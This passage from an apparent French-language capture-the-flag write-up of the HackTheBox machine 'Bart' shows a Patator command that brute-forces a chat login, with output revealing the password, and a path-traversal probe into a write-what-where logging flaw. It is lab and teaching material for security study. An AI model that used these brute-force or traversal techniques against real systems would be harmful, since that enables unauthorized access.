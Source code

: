 ```python
        csrf_token = CSRF_REGEX.search(r.text).group()
```

Cet accès nous permet de voir un nouveau hostname parmi les serveurs monitorés : internal-01.bart.htb  

![HackTheBox Bart reference to internal-01.bart.htb](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/bart_internal_chat_reference.png)

Un formulaire de login pour une appli de chat vraisemblablement home-made nous incite une fois encore à trouver un mot de passe pour ce cher *Harvey*. De quoi relancer *Patator* :  

```plain
devloop@kali:~$ patator http_fuzz url=http://internal-01.bart.htb/simple_chat/login.php method=POST body="uname=harvey&passwd=FILE0&submit=Login" follow=1 accept_cookie=1 0=passwords.txt -x ignore:fgrep='Invalid Username or Password' -x ignore:fgrep='The Password must be at least 8 characters'
14:44:21 patator    INFO - Starting Patator v0.6 (http://code.google.com/p/patator/) at 2018-05-26 14:44 CEST
14:44:21 patator    INFO -                                                                              
14:44:21 patator    INFO - code size:clen       time | candidate                          |   num | mesg
14:44:21 patator    INFO - -----------------------------------------------------------------------------
14:44:22 patator    INFO - 200  3370:2735      1.082 | Password1                          |     5 | HTTP/1.1 200 OK
14:44:22 patator    INFO - Hits/Done/Skip/Fail/Size: 1/6/0/0/6, Avg: 4 r/s, Time: 0h 0m 1s
```

Highway to shell
----------------

Cette application de chat est très sommaire toutefois en regardant le code source on devine une situation de write-what-where dans le mécanisme de logging présent :  

![HackTheBox Bart XHR request to log chats](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/bart_internal_chat_xhr.png)

On peut s'en assurer avec cette erreur verbose lorsque l'on spécifie le *boot.ini* comme fichier de log :  

```plain
Warning: file_put_contents(../../../../../../../boot.ini): failed to open stream: Permission denied in C:\inetpub\wwwroot\internal-01\log\log.php on line 41
```
